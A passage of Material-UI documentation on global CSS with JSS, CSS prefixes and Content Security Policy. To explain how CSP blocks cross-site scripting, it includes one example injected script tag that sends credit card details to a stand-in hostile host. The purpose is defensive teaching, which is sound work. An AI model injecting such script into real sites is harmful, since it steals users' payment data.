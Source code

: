 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## Global CSS

### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset.
You can use it to define global class names.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## CSS prefixes

JSS uses feature detection to apply the correct prefixes.
[Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## Content Security Policy (CSP)

### What is CSP and why is it useful?

Basically, CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/master/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.
